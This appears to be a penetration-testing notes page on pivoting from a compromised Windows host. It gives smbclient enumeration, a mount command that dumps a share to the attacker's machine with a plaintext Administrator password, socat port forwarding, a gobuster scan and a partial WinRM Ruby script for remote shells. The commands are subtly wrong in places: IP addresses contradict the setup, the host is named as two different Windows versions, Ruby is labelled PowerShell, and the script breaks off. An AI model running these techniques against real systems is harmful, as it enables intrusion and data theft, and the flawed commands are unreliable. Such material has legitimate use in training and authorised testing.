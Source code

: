 Now we can run samba client on kali machine to enumerate shares on the windows server 2016

```
root@kali:~$smbclient -L 10.11.0.22 --port=4455 --user=Administrator
```

\[10.11.0.22] IP of the compromised windows 10 Then we interact with the shares and mount them.

```
root@kali:~$sudo mkdir /mnt/win10_share
```

Suppose we found //Data share, we can dump it to our kali machine

```
root@kali:~$sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator ,password=Qwerty09! /mnt/win10_share
```

#### Using Socat

Socat can be used in scenarios where you discovered a machine running on a different network than the network in which the compromised machine resides. For example you compromised a machine whose ip is \[10.10.10.5] and you found another machine on \[172.16.1.6] which you can't reach from your kali machine. In this case, we use socat to forward the desired ports. Say the machine on \[172.16.1.6] has \[8080] port open. We can interact with it by making the machine \[10.10.10.5] listens on for example port \[60333] so that it forwards all incoming connections on port \[60333] to port \[8080] on \[172.16.1.6]

```
./socat tcp-listen:60333,reuseaddr,fork tcp:10.10.10.5:8080 &
```

Now from your kali box, you can start sending traffic and interacting with port \[8080] by including the port \[60333] in all your commands. For example, enumerating directories on \[10.10.10.5]

```
gobuster -u http://172.16.1.6:60333 -w [wordlist]
```

\#Another #example would be interacting with \[win-rm] port \[5986] on the machine to which we want to pivot. In that case, we perform the socat commands listed above along with the below script to get \[powershell] on the pivoted machine. #Note For this to work, you need the credentials of the pivoted machine. The below script is authored by user \[Alamot]

```powershell
require 'winrm-fs'

# Author: Alamot

# To upload a file type: UPLOAD local_path remote_path

# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt

conn = WinRM::Connection.new(

endpoint: 'https://IP:PORT/wsman',

transport: :ssl,

user: 'username',

password: 'password',

:no_ssl_peer_verification => true

)

file_manager = WinRM::FS::FileManager.new(conn)

class String
```